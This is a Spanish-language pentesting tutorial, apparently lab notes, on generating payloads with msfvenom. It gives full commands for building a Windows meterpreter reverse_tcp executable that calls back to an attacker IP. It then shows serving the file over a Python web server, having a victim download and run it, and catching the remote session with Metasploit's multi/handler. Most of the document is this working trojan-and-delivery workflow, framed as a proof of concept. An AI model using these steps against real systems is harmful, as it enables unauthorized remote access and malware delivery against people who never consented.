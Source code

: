 # Msfvenom – Generar Nuestros Propios Payloads

Vamos a crear ejecutables o archivos malicioso de tal forma que al ser ejecutados en una maquina remota podamos tener acceso remoto y hacer una intrusión.

Vamos ha hacernos usuario **root**

`sudo su`

![image.png](./imagenes/image%2032.png)

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.3.4 LPORT=443 -f exe -o pwned.exe
```

Al ejecutar el comando generaríamos un Payload malicioso llamado pwned.exe

![image.png](./imagenes/image%2033.png)

![image.png](./imagenes/image%2034.png)

**EXPLICACION DEL COMANDO:**

### **Análisis del comando**

1. **`msfvenom`**:
Es una herramienta de Metasploit utilizada para generar y codificar *payloads* (cargas útiles), las cuales son fragmentos de código malicioso que pueden ser utilizados en pruebas de penetración.
2. **`p windows/x64/meterpreter/reverse_tcp`**:
    - **`p`**: Define el *payload* que se usará.
    - **`windows/x64/meterpreter/reverse_tcp`**: Es un *payload* específico que genera una conexión inversa (reverse shell) en sistemas Windows de arquitectura x64 mediante TCP. Esto significa que la máquina objetivo se conecta de vuelta al atacante.
3. **`LHOST=10.0.3.4`**:
    - **`LHOST`**: Representa la dirección IP de la máquina atacante, que recibirá la conexión de la máquina comprometida.
4. **`LPORT=443`**:
    - **`LPORT`**: Indica el puerto en el que la máquina atacante estará escuchando. En este caso, el puerto 443, que es comúnmente usado por HTTPS y puede pasar inadvertido en redes mal configuradas.
5. **`f exe`**:
    - **`f`**: Especifica el formato del archivo generado. Aquí es un archivo ejecutable de Windows (**.exe**).
6. **`o pwned.exe`**:
    - **`o`**: Designa el nombre del archivo de salida. En este caso, el ejecutable se guarda con el nombre `pwned.exe`.

### **Estructura típica de comandos msfvenom**

El formato habitual para construir comandos con msfvenom es el siguiente:

```
msfvenom -p <payload> [opciones del payload] -f <formato> -o <archivo_salida>

```

### **Elementos principales**:

- **Especificación del payload**: Siempre comienza con `p` seguido del tipo de carga útil (por ejemplo, `windows/x64/meterpreter/reverse_tcp`).
- **Opciones del payload**: Parámetros específicos como `LHOST` (IP local) y `LPORT` (puerto).
- **Formato de salida**: Usando `f` se define el tipo de archivo, como `exe`, `elf`, `apk`, etc.
- **Archivo generado**: Con `o` se guarda el archivo con un nombre específico.

**RECURSOS UTILES:**

- **Recurso como funciona:** [https://www.offsec.com/metasploit-unleashed/msfvenom/](./imagenes/https://www.offsec.com/metasploit-unleashed/msfvenom/)
- **Recurso Payload**: [https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1](./imagenes/https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1)
- **Recurso creando diferentes tipos de payloads:** [https://www.nosolohacking.info/msfvenom-creando-diferentes-tipos-de-payloads/](./imagenes/https://www.nosolohacking.info/msfvenom-creando-diferentes-tipos-de-payloads/)

**Prueba de concepto contra una maquina Windows.**

Kali Linux 

Msf6 

Maquina objetivo

- Miramos el formato adecuado para utilizar en Windows
    
    
    `sudo msfvenom -l format`
    
    ![image.png](./imagenes/image%2035.png)
    

- **En el Metasploit** Hago una búsqueda de un payload para Windows y que tenga meterpreter.

**Arquitectura: x64 (de 64 bits), plataforma Windows, y que nos habrá una shell meterpreter (shell avanzada y multifuncional)**

`search arch:x64 platform:windows type:payload meterpreter`

![image.png](./imagenes/image%2036.png)

- Miro la información de payload 13 (13  payload/windows/x64/meterpreter/reverse_tcp )
    
    `Info 13`
    
    ![image.png](./imagenes/image%2037.png)
    

- Después de escoger el payload creo una orden msfvenom el un terminal para crear un troyano para Windows al que voy a llamar bichopedro.exe .
    
    `sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.3.4 LPORT=4444 -f exe -o bichopedro.exe`
    
    ![image.png](./imagenes/image%2038.png)
    

![image.png](./imagenes/image%2039.png)

- Creamos un servidor web con Python
    
    python3 -m http.server 80
    
    ![image.png](./imagenes/image%2040.png)
    

- Nos vamos a la maquina victima Windows y interpretamos el rol de la victima en el que se conecta a una web y se descarga un archivo.
- En el explorador metemos la IP del servidor web que hemos creado y nos descargaremos el archivo bichopero.exe.
    
    ![image.png](./imagenes/image%2041.png)
    

![image.png](./imagenes/image%2042.png)

![image.png](./imagenes/image%2043.png)

- Vamos a utilizar una herramienta que forma parte de Metasploit y es el Multi handler siendo una alternativa a la herramienta Netcat.
- Cargamos el modulo Multi handler.
    
    `use /multi/handler`
    
    ![image.png](./imagenes/image%2044.png)
    

`show options`

![image.png](./imagenes/image%2045.png)

Rellenamos los datos que nos haga falta. En este caso Nos falta el local Host (**LHOST**) y debemos **recordar que al crear el payload especificamos el puerto en el 4444 pero si hubiéramos puesto otro puerto**  **aquí** también **debemos especificar ese puerto de escucha en LPORT.**

- OJO!! Que aqui hay trampa. Recordemos que en **MSFVENOM** preparamos **un payload para recibir un meterpreter** no una shell . Eso **implica que dentro de este Payload también debo poner** que quiero recibir **una sesión de meterpreter**.
    
    ![image.png](./imagenes/image%2046.png)
    
- Le decimos que cargue el mismo payload.
    
    `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
    
    ![image.png](./imagenes/image%2047.png)
    

`show options`

![image.png](./imagenes/image%2048.png)

`set LHOST 10.0.3.4`

`show options`

![image.png](./imagenes/image%2049.png)

- Ejecutamos el Multi handler
    
    **`run`**
    
    ![image.png](./imagenes/image%2050.png)
    

- Ejecutamos en la maquina Windows el archivo infectado
    
    ![image.png](./imagenes/image%2051.png)
    
    Recibimos una conexión de Meterpreter y estamos dentro de la maquina.
    
    ![image.png](./imagenes/image%2052.png)